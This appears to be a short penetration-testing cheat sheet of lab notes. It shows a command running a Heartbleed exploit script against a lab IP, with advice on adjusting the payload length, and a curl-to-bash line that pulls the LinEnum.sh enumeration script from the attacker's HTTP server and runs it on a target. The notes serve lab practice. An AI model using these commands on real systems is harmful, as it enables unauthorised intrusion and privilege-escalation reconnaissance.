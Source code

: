 # Exploits

The following is a list exploits:

### Heartbleed
```
$ python heartbleed.py -x 10.10.10.125

```
You can change the payload size on line: 116
```
0x40, 0x00  # Payload length
  ^
Change this value to hex value to increase/decrease payload length  
```


### LinEnum.sh
The following tool will allow you to perform enumeration on a box that you do not have root access.

```
HOST MACHINE
$ python -m SimpleHTTPServer

TARGET MACHINE
$ curl 10.10.10.125:8000/LinEnum.sh | bash
```

